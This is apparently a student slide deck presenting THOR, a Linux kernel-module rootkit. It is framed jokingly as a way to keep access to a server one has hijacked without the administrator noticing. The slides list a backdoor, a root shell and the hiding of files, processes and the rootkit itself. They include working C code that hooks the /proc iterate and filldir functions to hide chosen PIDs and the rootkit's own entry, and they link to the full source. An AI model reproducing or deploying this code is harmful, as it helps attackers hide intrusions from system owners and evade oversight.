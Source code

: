 % THOR\
  The ~~Horrific~~ Hopefully Omnipotent Rootkit
% Alex Hirsch
  FraJo Haider
% 2014-12-01

## The Linux Kernel

\centerline{\includegraphics[width=300px]{gfx/kernel.png}} [^1]

[^1]: <http://sysplay.in/blog/linux-device-drivers/2013/02>

## Internals

\centerline{\includegraphics[width=280px]{gfx/kernel_map.png}} [^2]

[^2]: <http://en.wikipedia.org/wiki/Linux_kernel>

## Dafuq?

\centerline{\includegraphics[width=280px]{gfx/dafuq.jpg}}

## Okay Okay ... Imagine

- you are a student doing some ... ehm .. *research*
- you managed to hijack a server, acquired root privileges and now what?

- you could fool around, delete files, load some torrents, because `<INSERT
  REASON>`
- use the server as proxy to do even more ~~evil~~ *research oriented* stuff

But sooner or later the admin may recognize that the server has been
compromised, and lock you out.

## Solution: **Rootkit**

\centerline{\includegraphics[width=200px]{gfx/rootkit.jpg}}

## Main Usage

- provides backdoor
- hides suspicious activities
    - open ports
    - suspicious processes
    - files
- **hides its own presences**

## Why Kernel Module

- **more power**, kernel space > user space

In general system administration tools invoke *system calls* to retrieve
information directly from the kernel. Hence compromising the *root of
information* by overwriting certain system calls will render most
administration tools useless.

## Kernel Module Basics

- can be loaded / unloaded dynamically using `insmod` / `rmmod` as root
- can be loaded at boot
- *Linux Headers* provide an API
- communication via *files* (usually located in `/proc`)

## Problems

\centerline{\includegraphics[width=250px]{gfx/problems.jpg}}

## Problems

- few example code for up2date kernels
- Headers do not export enough, hence complete source is required
- hijacking systemcalls is not really encouraged by the developers (race
  conditions / undefined behaviour)
    - *yeah, no shit sherlock*

## Current State

- communication using file in `/proc`
- basic hiding of files by name
- basic hiding of processes by PID
- root shell
- hiding of sockets ... work in progress
- working in 3.14 (Arch LTS) and 3.17 (Arch Current)

## Example: Injection `prochidder_init()`

```{.c .numberLines}
static int __init prochidder_init(void)
{
    // insert our modified iterate for /proc
    procroot = procfile->parent;
    proc_fops = (struct file_operations*)procroot->proc_fops;

    orig_proc_iterate = proc_fops->iterate;

    set_addr_rw(proc_fops);

    proc_fops->iterate = thor_proc_iterate;

    set_addr_ro(proc_fops);

    INIT_LIST_HEAD(&pid_list.list);

    return 0;
}
```

## Injection `proc_iterate()`

```{.c .numberLines}
static int thor_proc_iterate(struct file *file, struct dir_context *ctx)
{
    int ret;
    filldir_t *ctx_actor;

    // capture original filldir function
    orig_proc_filldir = ctx->actor;

    // cast away const from ctx->actor
    ctx_actor = (filldir_t*)(&ctx->actor);

    // store our filldir in ctx->actor
    *ctx_actor = thor_proc_filldir;
    ret = orig_proc_iterate(file, ctx);

    // restore original filldir
    *ctx_actor = orig_proc_filldir;

    return ret;
}
```

## new `proc_filldir()`

```{.c .numberLines}
static int thor_proc_filldir(void *buf, const char *name, int namelen,
        loff_t offset, u64 ino, unsigned d_type)
{
    struct _pid_list *tmp;

    // hide specified PIDs
    list_for_each_entry(tmp, &(pid_list.list), list)
    {
        if(0 == strcmp(name, tmp->name)) return 0;
    }

    // hide thor itself
    if (0 == strcmp(name, THOR_PROCFILE)) return 0;

    return orig_proc_filldir(buf, name, namelen, offset, ino, d_type);
}
```

## Take a look

Github: <http://git.io/ZwNdCQ>

\centerline{\includegraphics[width=150px]{gfx/qrcode.png}}
